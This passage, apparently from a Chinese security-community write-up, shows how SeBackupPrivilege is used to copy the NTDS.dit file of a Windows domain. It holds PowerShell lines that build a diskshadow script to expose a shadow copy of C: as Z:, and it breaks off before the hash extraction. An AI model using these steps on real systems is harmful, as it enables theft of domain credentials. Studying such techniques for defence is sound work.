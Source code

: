 ## 使用 SeBackupPrivilege 转储 NTDS.dit 哈希值

使用 robocopy 制作 ntds.dit 文件的副本

[![](assets/1706512989-b1e56072e04deaca9834e9fb1ddd2d02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103231-a6cf9e52-be4e-1.png)

制作 script.txt 文件

[![](assets/1706512989-b11151b293cd3ee070ed717cff22745a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103237-aae3fb64-be4e-1.png)

```plain
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```

创建 script.txt 文件后，我使用以下命令创建卷影副本并将其显示为 Z:\\ 驱动器：

[![](assets/1706512989-a8c3b8b59f72f4f9a770ea0bfd3870ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103245-af39cb1c-be4e-1.png)

